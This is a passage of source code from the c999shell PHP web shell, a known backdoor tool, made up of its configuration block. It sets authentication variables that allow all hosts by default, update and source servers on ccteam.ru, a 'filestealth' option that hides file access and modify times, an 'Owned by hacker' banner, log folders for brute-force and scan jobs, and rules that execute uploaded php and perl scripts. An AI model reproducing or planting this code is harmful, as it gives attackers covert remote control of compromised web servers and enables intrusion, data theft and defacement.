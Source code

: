                 //(seconds), 0 = unlimited.
//Authentication
$login = ""; //login
//DON'T FORGOT ABOUT PASSWORD!!!
$pass = ""; //password
$md5_pass = ""; //md5-cryped pass. if null, md5($pass)
$host_allow = array("*"); //array ("{mask}1","{mask}2",...), {mask} = IP or HOST e.g. array("192.168.0.*","127.0.0.1")
$login_txt = "Restricted area"; //http-auth message.
$accessdeniedmess = "&lt;a href="\&quot;http://ccteam.ru/releases/c999shell\&quot;"&gt;c999shell v.".$shver."&lt;/a&gt;: access denied";
$gzipencode = TRUE; //Encode with gzip?
$updatenow = FALSE; //If TRUE, update now (this variable will be FALSE)
$c999sh_updateurl = "http://ccteam.ru/update/c999shell/"; //Update server
$c999sh_sourcesurl = "http://ccteam.ru/files/c999sh_sources/"; //Sources-server
$filestealth = TRUE; //if TRUE, don't change modify- and access-time
$donated_html = "&lt;/pre&gt;
&lt;center&gt;&lt;b&gt;Owned by hacker&lt;/b&gt;&lt;/center&gt;
&lt;pre&gt;";
/* If you publish free shell and you wish
add link to your site or any other information,
put here your html. */
$donated_act = array(""); //array ("act1","act2,"...), if $act is in this array, display $donated_html.
$curdir = "./"; //start folder
//$curdir = getenv("DOCUMENT_ROOT");
$tmpdir = ""; //Folder for tempory files. If empty, auto-fill (/tmp or %WINDIR/temp)
$tmpdir_log = "./"; //Directory logs of long processes (e.g. brute, scan...)
$log_email = "user@host.tld"; //Default e-mail for sending logs
$sort_default = "0a"; //Default sorting, 0 - number of colomn, "a"scending or "d"escending
$sort_save = TRUE; //If TRUE then save sorting-position using cookies.
// Registered file-types.
//  array(
//   "{action1}"=&gt;array("ext1","ext2","ext3",...),
//   "{action2}"=&gt;array("ext4","ext5","ext6",...),
//   ...
//  )
$ftypes  = array(
 "html"=&gt;array("html","htm","shtml"),
 "txt"=&gt;array("txt","conf","bat","sh","js","bak","doc","log","sfc","cfg","htaccess"),
 "exe"=&gt;array("sh","install","bat","cmd"),
 "ini"=&gt;array("ini","inf"),
 "code"=&gt;array("php","phtml","php3","php4","inc","tcl","h","c","cpp","py","cgi","pl"),
 "img"=&gt;array("gif","png","jpeg","jfif","jpg","jpe","bmp","ico","tif","tiff","avi","mpg","mpeg"),
 "sdb"=&gt;array("sdb"),
 "phpsess"=&gt;array("sess"),
 "download"=&gt;array("exe","com","pif","src","lnk","zip","rar","gz","tar")
);
// Registered executable file-types.
//  array(
//   string "command{i}"=&gt;array("ext1","ext2","ext3",...),
//   ...
//  )
//   {command}: %f% = filename
$exeftypes  = array(
 getenv("PHPRC")." -q %f%" =&gt; array("php","php3","php4"),
 "perl %f%" =&gt; array("pl","cgi")
);
/* Highlighted files.
  array(
   i=&gt;array({regexp},{type},{opentag},{closetag},{break})
   ...
  )
  string {regexp} - regular exp.